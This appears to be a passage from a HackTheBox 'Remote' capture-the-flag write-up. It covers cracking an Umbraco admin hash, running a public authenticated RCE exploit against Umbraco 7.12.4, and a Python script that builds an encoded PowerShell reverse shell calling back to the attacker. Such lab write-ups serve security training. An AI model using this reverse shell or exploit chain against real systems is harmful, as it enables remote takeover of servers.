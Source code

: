 I got this credentials through enumeration into this shares under `App_Data > umbraco.sdf`

![Untitled](Remote/Untitled.png)

It is in SHA1 hash format so lets use the Tool John The Ripper to get the password →

![Untitled](Remote/Untitled%201.png)

the credentials are :

```bash
admin@htb.local : baconandcheese
```

## Web Enumeration ⤵️

I checked port 80 and I got a CMS of Umbraco →

![Untitled](Remote/Untitled%202.png)

I also got the version of this Umbraco CMS through `Web.config` file →

![Untitled](Remote/Untitled%203.png)

As the version is `7.12.4` , I searched online related to its vulnerability and I got an exploit related to it →

[Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)](https://www.exploit-db.com/exploits/49488)

Lets use this exploit to gain foothold into this machine →

I can perform whoami command like this →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Remote]
└─$ python3 49488.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180/ -c whoami
iis apppool\defaultapppool
```

Now I have to get foothold so for that I used `powershell` as command and `-a` flag for rest of my argument commands and executed it and got the shell →

```python
#!/usr/bin/env python  {payload.py}
import base64
import sys

if len(sys.argv) < 3:
  print('usage : %s ip port' % sys.argv[0])
  sys.exit(0)

payload="""
$c = New-Object System.Net.Sockets.TCPClient('%s',%s);
$s = $c.GetStream();[byte[]]$b = 0..65535|%%{0};
while(($i = $s.Read($b, 0, $b.Length)) -ne 0){
    $d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);
    $sb = (iex $d 2>&1 | Out-String );
    $sb = ([text.encoding]::ASCII).GetBytes($sb + 'ps> ');
    $s.Write($sb,0,$sb.Length);
    $s.Flush()
};
$c.Close()
""" % (sys.argv[1], sys.argv[2])

byte = payload.encode('utf-16-le')
b64 = base64.b64encode(byte)
print("powershell -exec bypass -enc %s" % b64.decode())
```